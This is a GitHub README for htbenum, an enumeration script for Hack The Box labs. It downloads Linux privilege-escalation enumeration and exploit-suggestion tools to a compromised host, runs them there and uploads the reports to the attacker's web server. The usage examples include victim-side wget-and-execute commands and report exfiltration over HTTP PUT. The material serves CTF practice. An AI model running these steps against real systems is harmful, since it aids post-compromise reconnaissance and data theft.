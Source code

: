# htbenum
*A Linux enumeration script for Hack The Box*

![GitHub](https://img.shields.io/github/license/SolomonSklash/htbenum.svg?style=flat-square)
![Github language](https://img.shields.io/github/languages/top/SolomonSklash/htbenum.svg?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues/SolomonSklash/htbenum.svg?style=flat-square)
![Github contributors](https://img.shields.io/github/contributors/SolomonSklash/htbenum.svg?style=flat-square)

This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review. It also has a builtin web server to host the tools and upload reports back to the host machine.

**Pull requests/suggestions welcome!**

![](screenshot01.png)

### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Builtin webserver for hosting tools and uploading completed reports
* Automatic tool download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing

### Usage
```
./htbenum.sh [-u] -i IP -p port [-o directory] [-w] [-r]

Example:
         Host machine: root@kali:~/htbenum# ./htbenum.sh -u
         Host machine: root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
         Victim machine: www-data@victim:/tmp$ wget http://10.10.14.1:80/htbenum.sh
         Victim machine: www-data@victim:/tmp$ chmod +x ./htbenum.sh
         Victim machine: www-data@victim:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r

 Parameters:
         -h - View help and usage.
         -i IP - IP address of the listening web server used for upload and download.
         -p port - TCP port of the listening web server used for upload and download.
         -o directory - Custom download and report creation directory (default is /tmp).
         -w - Start builtin web server for downloading files and uploading reports.
         -u - Update to the latest versions of each tool, overwriting any existing versions.
         -r - Upload reports back to the host machine web server (must support PUT requests).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh -u
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start the builtin web server to host the tools an receive the completed reports. You can use you own web server to host the tools, but it will need to support PUT requests for the report uploads.

```
root@kali:~/htbenum# ./htbenum.sh -i 10.10.14.1 -p 80 -w
```

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. You can also optionally upload the reports back to the host machine. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh -i 10.10.14.1 -p 80 -r
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `-d` parameter.
